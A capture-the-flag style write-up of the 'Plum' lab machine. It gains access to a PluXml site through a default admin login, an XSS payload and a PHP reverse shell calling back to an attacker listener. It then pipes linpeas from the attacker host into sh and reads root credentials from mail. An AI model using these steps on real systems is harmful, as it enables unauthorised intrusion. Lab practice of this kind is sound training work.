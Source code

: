 ```yaml
---
title: Plum
date: 2023-11-29
tags:
  - OSCP
  - PG Practice
  - TJ Null
  - Linux
  - Easy
---
```


![info](./info.png)

# Recon

## Nmap
```
nmap -sC -sV -p- --open <ip>
```

![nmap](./nmap.png)
There is a web application built with PluXml.

---

Browsing the web application, there is an admin login.
![admin](./admin.png)

The login credentials are simple `admin:admin`
![login](./login.png)

Notice that the url ends in `.php` like `http://192.168.165.28/core/admin/index.php?page=1`
- Also, the version of PluXml is shown 

Searching for the version of PluXml unveils a [remote code execution exploit and a cross site scripting vulnerability](https://github.com/MoritzHuppert/CVE-2022-25018/blob/main/CVE-2022-25018.pdf).


# Cross-Site Scripting
An article can be created with the following
1. Click on **New Article**
2. In any input box, use the following payload
```
<script>alert(1)</script>
```
- This will inject a JavaScript script and will run under the context of the user who clicks on the link to the article seen below
![xss](./xss.png)

3. Save the draft and publish the article.

When clicking on the link that is generated after publishing the article, an alert is generated. This confirms the cross-site scripting vulnerability.
- In this case the link is `http://192.168.165.28/index.php?article2/test1`

## Remote Code Execution
Go to **Static Pages** and edit a page.
- [Use this PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Replace the content with the php script.
- replace the IP address for your listener IP
- use the port that is configured to listen (4444)
```
$VERSION = "1.0";
$ip = '192.168.45.212';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
```

Start a netcat listener in a linux command line.
``` bash
nc -lnvp 4444
```

Save the page and click **View page Static 1 on site**
- a connection will be made with the php server
![shell](./shell.png)

### Linux Privilege Escalation
#### Linpeas.sh
Using [linpeas.sh](https://linpeas.sh/), start a python server in the directory with linpeas.sh
```
┌──(kali㉿kali)-[/opt]
└─$ ls            
linpeas.sh

┌──(kali㉿kali)-[/opt]
└─$ python3 -m http.server 80                                                   
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

In the netcat listener run the following command to fetch and run the `.sh` script.
```
curl {IP}/linpeas.sh | sh
```

Going through the linpeas output, there is an interesting mail section
![mail](./mail.png)

Looking at the contents of `/var/mail/www-data` the credentials for the root user can be found
![root](./root.png)

Use this password when switching to the root user with `su root`
![switch](./switch.png)

The flag (local.txt) can be found in the `/var/www` directory.
The flag (proof.txt) can be found in the `/root` directory.

# Summary

Vulnerabilities in the PluXml web application were exploited, including an **_XSS flaw_** and **_remote code execution_**. I was able to gain access, escalate privileges using Linpeas.sh, and find root credentials in mail logs

Join me for the next machine soon for more exciting challenges and security insights!

+10 points
